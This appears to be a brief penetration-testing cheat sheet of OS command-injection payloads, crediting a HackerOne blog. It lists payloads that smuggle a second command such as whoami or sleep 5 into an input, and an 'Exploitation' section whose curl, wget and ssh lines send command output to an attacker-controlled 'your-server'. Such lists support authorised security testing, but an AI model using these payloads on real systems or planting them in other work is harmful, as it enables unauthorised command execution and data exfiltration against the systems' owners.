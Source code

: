 # Normal Tests
`` `whoami` ``

;whoami

&& whoami

| whoami

# For Testing blind Command Injection 
;sleep 5

&& sleep 5

| sleep 5

`` `sleep 5` ``

$(sleep 5)


# Exploitation

whoami | curl http://your-server -d @-

wget http://your-server/$(whoami)

export C=whoami | ssh user@your-server

# Source 
[Thanks to hackerone!](https://www.hackerone.com/blog/how-to-command-injections)
